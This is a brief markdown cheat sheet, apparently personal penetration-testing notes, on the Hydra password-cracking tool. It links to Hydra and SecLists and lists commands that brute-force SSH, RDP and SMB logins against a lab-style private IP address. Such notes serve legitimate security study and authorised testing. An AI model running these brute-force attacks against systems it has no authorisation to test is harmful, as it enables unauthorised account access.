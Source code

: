 # Overview



# Resources

https://github.com/vanhauser-thc/thc-hydra \
https://github.com/thex150/Seclists \
https://github.com/danielmiessler/SecLists

# Usage

Help
```bash
hydra -h
```

Bruteforce SSH
```bash
hydra -L user.list -P password.list ssh://10.129.42.197
```

Bruteforce RDP
```bash
hydra -L user.list -P password.list rdp://10.129.42.197
```

Bruteforce SMB
```bash
hydra -L user.list -P password.list smb://10.129.42.197
```
